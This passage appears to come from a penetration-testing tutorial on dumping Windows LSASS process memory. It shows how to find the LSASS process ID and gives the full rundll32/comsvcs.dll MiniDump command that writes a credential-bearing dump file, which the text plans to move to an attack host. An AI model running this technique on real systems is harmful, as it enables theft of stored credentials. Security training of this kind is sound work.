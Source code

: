 This is the file we will transfer to our attack host.&#x20;

***

### <mark style="color:blue;">**Rundll32.exe & Comsvcs.dll Method**</mark>

We can use an alternative method to dump LSASS process memory through a command-line utility called [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32).&#x20;

Modern anti-virus tools recognize this method as malicious activity.

Before issuing the command to create the dump file, we must determine what process ID (`PID`) is assigned to `lsass.exe`.

#### <mark style="color:green;">**Finding LSASS PID in cmd**</mark>

```cmd-session
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A

```

#### <mark style="color:green;">**Finding LSASS PID in PowerShell**</mark>

From PowerShell, we can issue the command `Get-Process lsass` and see the process ID in the `Id` field.

```powershell-session
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

Once we have the PID assigned to the LSASS process, we can create the dump file.

#### <mark style="color:green;">**Creating lsass.dmp using PowerShell**</mark>

With an elevated PowerShell session, we can issue the following command to create the dump file:

{% code fullWidth="true" %}
```powershell-session
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 660 C:\lsass.dmp full
```
{% endcode %}

With this command, we are running `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory (`C:\lsass.dmp`).&#x20;
